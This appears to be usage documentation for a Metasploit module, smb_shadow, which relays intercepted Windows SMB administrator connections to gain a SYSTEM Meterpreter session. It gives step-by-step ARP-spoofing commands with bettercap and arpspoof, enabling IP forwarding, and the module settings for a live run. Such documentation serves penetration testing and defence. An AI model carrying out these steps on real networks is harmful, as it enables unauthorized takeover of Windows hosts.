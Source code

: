 ## Vulnerable Application

To be able to use exploit/windows/smb/smb_shadow, you must meet these requirements:

* There is a Windows SMB Server on the LAN
* There is a Windows SMB Client on the LAN
* Metasploit is running will full local socket access (e.g. as root user)

## Verification Steps

1. Ensure Windows SMB Client and Server are on the LAN
2. Run bettercap targeting both the SMB Client and Server (`bettercap -I <iface> -T <smb-client-ip>,<smb-server-ip>`)
3. Start msfconsole (`sudo msfconsole`)
4. Do `use exploit/windows/smb/smb_shadow`
5. Do `set INTERFACE <iface>`
6. Do `set DefangedMode false`
7. Do `run`
8. Make a SMB Client connect to the SMB Server as an Administrator
9. Receive a Meterpreter Session as SYSTEM on the SMB Server host

## Options

### SHARE

This must be a SMB share that the connecting user has read and write access to.
SHARE is set to `ADMIN$` by default which is the standard share for the Administrator.

### INTERFACE

This must be a network interface on the local machine.
The interface must be on the same network as both the SMB Client and Server.

### DefangedMode

This must be set to false to acknowledge that the module will affect your network configuration.
DefangedMode is set to true by default to prevent unintentional network configuration disruptions.

### DisableFwd

This must be set to false if packet forwarding on port 445 was disabled manually.
DisableFwd is set to true by default to allow the module to disable packet forwarding on port 445.

## Scenarios

**Active Windows Network**

Follow the following steps to target all the hosts on the LAN:

1. Run bettercap targeting the entire LAN (`bettercap -I <iface>`)
2. Start msfconsole (`sudo msfconsole`)
3. Do `use exploit/windows/smb/smb_shadow`
4. Do `set INTERFACE <iface>`
5. Do `set DefangedMode false`
6. Do `run`
7. Wait for any SMB Client to connect to any SMB Server as an Administrator
8. Receive a Meterpreter Session as SYSTEM on the SMB Server host

## Notes

This module has a tendency to spawn multiple sessions due to the SMB Client retrying the connection.

This module will not finish execution by itself and should be terminated with Ctrl-C.

Follow the following steps to use arpspoof instead of bettercap on Linux:

1. Enable ipv4 forwarding (`sysctl -w net.ipv4.ip_forward=1`)
2. Start arpspoof targeting the SMB Client (`arpspoof -i <iface> -t <smb-client-ip> <smb-server-ip>`)
3. Start arpspoof targeting the SMB Server (`arpspoof -i <iface> -t <smb-server-ip> <smb-client-ip>`)
